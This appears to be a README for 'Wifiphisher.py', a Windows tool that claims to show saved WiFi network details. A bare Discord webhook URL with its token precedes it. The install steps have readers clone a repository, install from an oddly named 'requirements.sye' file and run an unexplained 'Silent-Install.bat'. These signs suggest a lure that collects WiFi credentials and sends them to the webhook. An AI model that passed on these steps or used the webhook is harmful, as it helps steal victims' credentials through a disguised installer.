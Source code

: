 https://discord.com/api/webhooks/1248035613689511947/CIS8Eka-M5Zl84UqSuVT0L0mEnsY-0yarYjxzcG3v0zMd21dGQqpQ965qi732iy5HH

# Wifiphisher.py


Wifiphisher.py is a Python tool designed to retrieve and display information of saved WiFi networks on a Windows system.



## Installation
1. Create new folder named `wifiphisher`
2. start `cmd.exe` on folder `wifiphisher` and run this command:
   ```
   git clone https://github.com/skyder-dev/wifiphisher.git
   ```
3. **Prerequisites:** Make sure you have Python installed on your system.
4. Run the `requirements.sye` file to install the necessary dependencies by executing the following command:

   ```
    pip install -r requirements.sye
   ```
    
5. Run the `Silent-Install.bat` file to install dependencies silently.


## Usage

1. Run the `wifiphisher.bat` file.
2. Select the WiFi network you want to view information for by entering the corresponding number.



## Files

- **requirements.sye:** File containing dependencies required to run the script.
- **Silent-Install.bat:** Script for silent installation of dependencies.
- **wifiphisher.bat:** Script to execute the program.
- **wifiphisher.py:** Main script containing Python code to retrieve and display information of saved WiFi networks.
